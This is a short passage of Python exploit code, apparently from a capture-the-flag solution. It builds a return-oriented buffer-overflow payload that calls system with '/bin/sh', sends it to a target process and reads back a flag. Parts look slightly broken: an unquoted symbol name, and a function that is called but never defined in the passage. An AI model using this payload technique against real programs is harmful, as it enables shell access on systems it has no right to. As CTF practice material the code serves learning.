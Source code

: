 def payload_2():
    rop = b"A" * 44
    rop += p32(ELF.symbols[system])
    rop += b"BBBB"
    rop += b"/bin/sh\x00"

PAYLOAD = 1
SLICE = 2
rop = payload_1()

if PAYLOAD == 2:
    rop = payload_2()
    SLICE = 6



log.success(f"ROPchain = {rop}")
p.sendline(rop)
flag = p.recvall().split(b'\n')[-SLICE]
log.success(f"FLAG : {flag}")

with open('./input', mode='wb') as f:
    f.write(rop)

```

